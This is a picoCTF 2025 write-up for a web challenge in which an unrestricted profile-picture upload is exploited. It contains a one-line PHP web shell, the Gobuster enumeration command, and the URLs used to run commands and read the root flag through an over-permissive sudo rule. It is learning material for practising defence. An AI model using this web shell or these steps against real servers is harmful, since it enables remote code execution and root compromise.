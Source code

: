 # picoCTF 2025 — n0s4n1ty 1 (Web Exploitation)

**Challenge Description:**  
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. The goal is to exploit the upload and retrieve the hidden flag from the `/root` directory.

---

## Walkthrough

At first, I see a basic upload button and an input where I can insert an image. That input is just the standard browse button. I test it by uploading a simple image, which takes me to `/upload.php`. I check the console and the network tab, but I don’t notice anything strange.

Next, I run Gobuster to check for hidden directories. Since this is an easy CTF, I used the Seclists `raft-small-files.txt` wordlist:

```bash
gobuster dir \
  -u http://standard-pizzas.picoctf.net:59916/uploads/ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt \
  -x php,txt,jpg,png \
  -t 30 -s 200,204,301,302,307,403
```

Sure enough, I notice that there’s a hidden `/uploads` directory, which matches the hint in the problem description. But when I visit `/uploads`, I get a **403 Forbidden** error — I can’t list the files directly.

Since the challenge description mentioned a flaw in the upload functionality, I try uploading a `.txt` file instead of an image. It works! That means I can upload arbitrary file types. From there, I decide to create a PHP file to gain command execution.

I make a file called `attack.php` containing:

```php
<?php system($_GET["cmd"]); ?>
```

I upload it through `curl` to `/upload.php`. The server responds with **200 OK**, meaning the file was uploaded successfully. Even though directory listing is blocked, I can still access files directly. Navigating to `/uploads/attack.php` works as expected.

Now, I can pass commands using the `cmd` parameter. For example:

```
http://standard-pizzas.picoctf.net:59916/uploads/attack.php?cmd=id
```

returns the current user: `www-data`.

---

## Privilege Escalation

To escalate privileges, I check `sudo -l`:

```
http://standard-pizzas.picoctf.net:59916/uploads/attack.php?cmd=sudo%20-n%20-l
```

The output is:

```
Matching Defaults entries for www-data on challenge:
  env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User www-data may run the following commands on challenge:
  (ALL) NOPASSWD: ALL
```

This means the web user can run **any command as root without a password**. Essentially, I already have full root access.

So, the final step is simple — just read the flag from `/root/flag.txt`:

```
http://standard-pizzas.picoctf.net:59916/uploads/attack.php?cmd=sudo%20cat%20/root/flag.txt
```

And that gives me the flag 🎉

---

## Conclusion

The vulnerability came from unrestricted file uploads that allowed arbitrary PHP code execution. Combined with overly permissive `sudo` settings (`NOPASSWD: ALL`), privilege escalation was trivial. Uploading a simple PHP shell was enough to gain root and retrieve the flag.

This was a fun challenge that highlights why file upload validation and proper privilege configurations are critical for web security.

---

